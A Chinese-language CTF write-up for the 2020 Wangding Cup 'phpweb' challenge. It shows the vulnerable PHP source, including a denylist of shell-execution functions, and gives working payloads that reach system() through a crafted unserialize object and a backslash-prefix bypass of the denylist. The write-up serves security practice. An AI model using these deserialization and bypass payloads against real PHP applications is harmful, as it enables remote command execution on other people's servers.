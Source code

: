 # [网鼎杯 2020 朱雀组]phpweb 1

- 进入网页，给我吓了一跳，~~什么玩意儿这是~~，查看源码没看出什么东西，抓包，发现了POST传参

> <img src="../../IMG3/Screenshot 2024-06-17 205230.png">

- 看网页的报错信息，这里的func就是传入的函数名，p则是参数，直接尝试getshell，发现被过滤了

`func=system&p=ls /`

> <img src="../../IMG3/Screenshot 2024-06-17 205442.png">

- 尝试文件包含函数，发现 `file_get_contents` 可用，开始代码审计

`func=file_get_contents&p=index.php`

```php
<?php
$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    } else {return "";}
}
class Test {
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
}
```

## 方法一

- 这道题对很多的函数进行了黑名单过滤，包括 `system()` ， `eval()` ， `exec()` 等，但是仍有很多函数可以利用，结合代码中的出现的类，我们使用反序列化函数 `unserialize()`

```php
<?php
class Test {
    var $p = "ls /";
    var $func = "system";
}

$test = new Test();
echo serialize($test);
```

- 将得到的序列化字符串传入网页

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}`

> <img src="../../IMG3/Screenshot 2024-06-17 210356.png">

- 没有发现flag，尝试搜索

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";}`

> <img src="../../IMG3/Screenshot 2024-06-17 210519.png">

- 发现可疑文件 `/tmp/flagoefiu4r93` ，获取内容，得到flag

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}`

> <img src="../../IMG3/Screenshot 2024-06-17 210623.png">

## 方法二

- 这道题对函数名进行了过滤，但是 `call_user_func()` 函数有个缺陷，即是如果传入的函数名前有特殊字符 `\`  ，`call_user_func()` 函数会忽略特殊字符并进行执行

`func=\system&p=ls /`

> <img src="../../IMG3/Screenshot 2024-06-17 211640.png">

- 后面的步骤详见上文方法一